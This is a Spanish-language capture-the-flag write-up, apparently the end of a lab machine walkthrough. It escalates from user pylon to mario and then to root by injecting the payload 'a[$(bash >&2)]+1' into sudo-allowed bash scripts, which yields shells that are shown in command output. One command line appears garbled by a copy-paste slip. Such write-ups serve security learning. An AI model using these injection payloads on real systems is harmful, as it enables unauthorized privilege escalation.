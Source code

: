 Ya estamos como **pylon**. Ahora volvemos a mirar si podemos ejecutar algo como otro usuario:

```bash
pylon@28f7a25fdecd:$ sudo -l
Matching Defaults entries for pylon on 28f7a25fdecd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pylon may run the following commands on 28f7a25fdecd:
    (mario) NOPASSWD: /bin/bash /home/mario/pingusorpresita.sh
```

Como explico Mario en este [short](https://youtube.com/shorts/30Z2QVJfhGs?feature=shared) en su canal de YouTube vamos a movernos al usuario mario usando esa técnica:

```bash
pylon@28f7a25fdecd:$ sudo -u mario /bin/bash /home/mario/pingusorpresita.sh
Escribe 1 para ver el canal del pinguino, o cualquier otro numero para acceder a la academia: a[$(whoami >&2)]+1
mario
https://www.youtube.com/@ElPinguinoDeMario

# Funciona! Ahora ejecutamos una shell en bash
pylon@28f7a25fdecd:$ sudo -u mario /bin/bash /home/mario/pingusorpresita.sh
Escribe 1 para ver el canal del pinguino, o cualquier otro numero para acceder a la academia: a[$(bash  >&2)]+1
mario@28f7a25fdecd:~$ whoami
mario
```

# Escalada de privilegios

Una vez estamos como mario hacemos el mismo proceso para convertirnos en root. 

```bash
mario@28f7a25fdecd:~$ sudo -l
Matching Defaults entries for mario on 28f7a25fdecd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mario may run the following commands on 28f7a25fdecd:
    (root) NOPASSWD: /bin/bash /home/pylon/pylonsorpresita.sh
    
mario@28f7a25fdecd:~$ sudo /bin/bash /home/pylon/pylonsorpresit/bin/bash /home/pylon/pylonsorpresita.sh
Escribe 1 para ver el canal de pylon: a[$(bash  >&2)]+1
root@28f7a25fdecd:/home/mario# cd ~
root@28f7a25fdecd:~# hostname; whoami
28f7a25fdecd
root
root@28f7a25fdecd:~# 
```

Y con este terminamos la máquina.
